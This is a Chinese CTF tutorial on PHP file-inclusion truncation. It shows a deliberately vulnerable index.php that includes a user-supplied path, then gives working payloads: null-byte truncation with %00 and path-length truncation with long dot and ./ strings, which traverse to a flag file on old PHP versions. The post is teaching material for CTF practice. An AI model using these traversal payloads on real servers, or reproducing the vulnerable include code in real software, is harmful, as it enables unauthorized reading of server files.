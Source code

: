 ## 0x01 CTF中的文件包含

文件包含在CTF中算是一种比较常见的题型。如果单独作为一题的话基本上都是考你能否找到这个文件。还有一种就是混合型的和其他知识点一起考，通过文件包含找到源码然后再代码审计。

## 0x02 常规截断

要求：

- php版本小于5.3.4
- magic_quotes_gpc为off状态

漏洞文件index.php

```php
<?php
if (empty($_GET["file"])){
    echo('../flag.php');
    return;
}
else{
    $filename='pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome.txt").'.html';
    include $filename;
}
?>
```

flag文件放在上层目录

这里限制了后缀名，我们需要通过截断才能访问到flag文件 利用代码：

```text
index.php?file=../../flag.php%00
```

  

![](https://pic3.zhimg.com/80/v2-0f8bb8b0f13f0c41f911567e5c04a7e2_720w.webp)

  
  

%00 会被解析为0x00，所以导致截断的发生 我们通过截断成功的绕过了后缀限制

## 0x03 路径长度截断

我们现在已经知道使用%00截断有两个条件php版本小于5.3.4和magic_quotes_gpc为off状态。 如果这时我们将magic_quotes_gpc改为on那么就不能截断了，因为开启magic_quotes_gpc后%00会被加上一个反斜杠转义掉

  

![](https://pic4.zhimg.com/80/v2-4ae67b246f19f5fe0d2355c77021bfef_720w.webp)

  
  

那么我们这时候有没有办法绕过这个限制呢？ 答案是肯定的，但依旧有一个条件那就是php版本小于5.3.10 我们的代码依旧不变 漏洞文件index.php

```php
<?php
if (empty($_GET["file"])){
    echo('../flag.php');
    return;
}
else{
    $filename='pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome.txt").'.html';
    include $filename;
}
?>
```

  

flag文件放在上层目录 这时我们可以使用字符 . /. 和 ./ 来进行绕过，因为文件路径有长度限制

- windows 259个bytes
- linux 4096个bytes

在windows下需要.字符最少的利用POC1：

```text
file=../../flag.php..............................................................................................................................................................................................................................................
```

  

![](https://pic2.zhimg.com/80/v2-727b4d978c8ed0f1676673c26851761d_720w.webp)

  
  

在windows下需要.字符最少的利用POC2：

```text
file=../../flag.php./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

  

![](https://pic3.zhimg.com/80/v2-9ca3a3374552ee9db6dc65c999b21a3a_720w.webp)

  

将flag.php改为flag1.php 在windows下需要.字符最少的利用POC3：

```text
file=../../flag1.php/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

  

![](https://pic2.zhimg.com/80/v2-a9471dd64354a01407e18a5a1cccb2b9_720w.webp)

  

我们发现在使用payload3时将文件名改为了flag1.php，而payload2和payload3则是一个.开始，一个/开始。 这和文件长度的奇偶性有关，当为偶数的时候我们选择payload2，为奇数的时候我们选择payload3

## 0x04 总结

使用截断的时候根据题目的具体情况使用不同的截断方法，遇到奇偶问题的时候我们可以丢一串很长的./到URL后面然后再调整第一个字符即可。一般来说%00就足够了，当%00不行时再尝试./的组合